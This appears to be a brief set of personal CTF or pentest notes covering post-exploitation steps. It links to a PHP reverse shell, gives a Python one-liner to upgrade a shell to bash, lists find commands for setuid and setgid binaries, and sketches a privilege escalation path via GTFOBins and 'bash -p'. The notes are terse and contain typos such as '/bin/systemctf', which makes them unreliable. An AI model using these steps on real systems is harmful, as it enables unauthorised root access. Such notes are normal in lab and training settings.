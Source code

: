 php reverseshell = https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

__GET A BETTER SHELL__
python -c "import pty; pty.spawn('/bin/bash')"

__find setuid__
cat /
find / -perm /4000

__find setguid__
find / -perm /2000

__CHECK RUNNING PROCESS__
ps aux

__PRIVILEDGE ESCALATION__
/bin/systemctf
go to GTFObins
edit the code and run it
bash -p
now we have root access



